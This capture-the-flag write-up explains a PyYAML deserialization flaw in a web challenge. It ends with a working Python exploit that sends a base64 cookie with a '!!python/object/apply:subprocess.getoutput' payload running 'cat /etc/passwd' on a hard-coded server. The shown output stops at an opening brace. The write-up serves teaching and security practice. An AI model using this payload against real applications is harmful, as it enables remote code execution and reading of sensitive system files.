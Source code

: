 
```bash
➜  bad_request echo "YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==" | base64 -d
api_data: The api is still under construction, updates coming soon!          
```
We can manipulate the response by change the value of `api_data`.
Now we detected the input field but still don't know the vulnerability. Did We have an XSS or what!

I read the Description of challenge again and I Notice _YAML_ Humm, 
After a little bit of recon I figured out that there is an open port and the running service is `Werkzeug httpd 0.14.1 (Python 3.6.9)`. After some search I found that the vulnerability is `PyYAML Desirlazation` and it can lead to `RCE`.

If you don't know What is `YAML` you can check this short [one](https://www.youtube.com/watch?v=0fbnyS_lHW4) 

Example
```py
>>> import yaml
>>> with open("1.yaml") as s:
...     y = yaml.load(s)
...     print(y['name'])
... 
<stdin>:2: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.
m1m0n
>>>
```
The Problem in `PyYAML` arises when using `load()` which is vulnerable and We can use `apply` tag - in the parser used in python - Which allows to call any function from any module.

If You need a good reference about `YAML Deserialization Attack in Python` I recommend this [One](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter)

--- 

#### Final Exploit

```py
import requests
import base64

url = "http://52.59.239.147/api/v1/"
payload = ("api_data: !!python/object/apply:subprocess.getoutput ['cat /etc/passwd']").encode('utf-8')
h = {"Cookie": "data={}".format(str(base64.b64encode(payload))[2:])}
r = requests.get(url, headers=h)

print(r.text)
```
```bash
➜  bad_request_SOLVED python3 get_flag.py
{
```